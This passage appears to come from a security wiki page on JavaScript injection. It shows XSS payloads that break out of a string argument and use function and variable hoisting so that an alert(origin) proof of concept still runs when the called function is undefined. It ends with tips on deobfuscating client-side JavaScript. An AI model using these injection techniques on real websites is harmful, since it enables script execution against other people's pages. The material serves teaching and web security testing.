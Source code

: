 {% code title="Vulnerable Code" %}
```javascript
func('test', 'INJECTION');
```
{% endcode %}

It looks like simply closing the `'` at the injection point will do, to create a payload like this:

{% code title="Naive exploit" %}
```javascript
func('test', ''-alert(origin)-''); 
```
{% endcode %}

But what if `func` isn't defined for some reason? You'll receive the following runtime error before the alert pops:

> Uncaught ReferenceError: `func` is not defined

The solution is to abuse "hoisting", a process in JavaScript where during parsing, any function declarations will be **moved to the top**. This allows a function to be used before it is defined from top to bottom in a file. It is best shown with an example:

<pre class="language-javascript"><code class="lang-javascript">func('test', 'test'); 

<strong>function func(a, b) {
</strong><strong>    return 1
</strong><strong>};
</strong>
alert(origin);//');
</code></pre>

If `func` was `func.someMethod`, this would still fail because undefined is not callable and our alert payload later in the code won't get executed. However, before the property read on func, the arguments to the function are evaluated including our injection point. We just need to put the alert inline here:

```javascript
func.someMethod('test', ''-alert(origin)-''); 

function func(a, b) {
    return 1
};//')
```

Similarly, undefined variables can be declared anywhere in the code with `var`:

<pre class="language-javascript"><code class="lang-javascript">func(a, 'test'); 

<strong>var a = 1;
</strong>
alert(origin);//');
</code></pre>

## Reverse Engineering

Client-side javascript is often minified or obfuscated to make it more compact or harder to understand. Luckily there are many tools out there to help with this process of reverse engineering, like the **manual** [JavaScript Deobfuscator](https://willnode.github.io/deobfuscator/). While manually trying to deobfuscate the code, dynamic analysis can be very helpful. If you find that a function decrypts some string to be evaluated for example, try throwing more strings into that function at runtime with _breakpoints_.&#x20;
